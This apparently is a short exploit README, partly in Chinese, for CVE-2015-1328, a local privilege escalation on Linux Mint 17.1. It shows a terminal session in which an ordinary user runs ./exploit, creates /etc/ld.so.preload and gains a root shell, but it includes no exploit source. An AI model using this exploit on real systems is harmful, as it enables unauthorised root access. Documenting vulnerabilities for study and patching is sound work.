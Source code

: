 # Description
截止到今天，LinuxMint目前比较新的版本17.1可以直接本地普通用户提权，最新的17.2需要在进行远程的时候可以，本地不可以！

# Testing

```
$ id
uid=1000(mudongliang) gid=1000(mudongliang) 组=1000(mudongliang),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare)
$ ./exploit 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),110(sambashare),1000(mudongliang)
```

# Reference
[CVE-2015-1328](http://cxsecurity.com/issue/WLB-2015060081)